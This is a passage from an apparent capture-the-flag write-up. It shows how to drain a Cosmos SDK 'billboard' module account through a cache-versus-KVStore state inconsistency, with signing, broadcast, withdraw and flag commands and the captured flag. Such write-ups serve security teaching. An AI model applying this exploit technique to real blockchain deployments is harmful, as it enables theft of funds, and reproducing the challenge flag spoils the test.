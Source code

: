 2. Sign and broadcast the transaction 
```shell
$ billboardcli tx sign tx.json --from $KEY --chain-id mainnet --node $RPC > signtx.json
$ billboardcli tx broadcast signtx.json --node $RPC
```

3. Withdraw the initialized 100ctc
```shell
$ billboardcli tx billboard withdraw $ID 100ctc --from $KEY --chain-id mainnet --fees 10ctc --node $RPC
```
Let’s see what’s happening here:

- msg1 updates the KVStore and cache, but due to the failure of msg2 the modification on KVStore is reverted while that on cache reserves.
- Since the cache is read first, withdraw tx will be executed successfully and finally written to the underlying KVStore. Therefore, the 100ctc is transferred from the module account to our account.

4. So now module account is empty and we can capture the flag !!!
```shell
$ billboardcli tx billboard ctf $ID --from $KEY --chain-id mainnet --fees 10ctc --node $RPC
```

rwctf{7hi$1S@C4ChE_l1FeCyc13_vUl_1n_Co5m0S5dk}
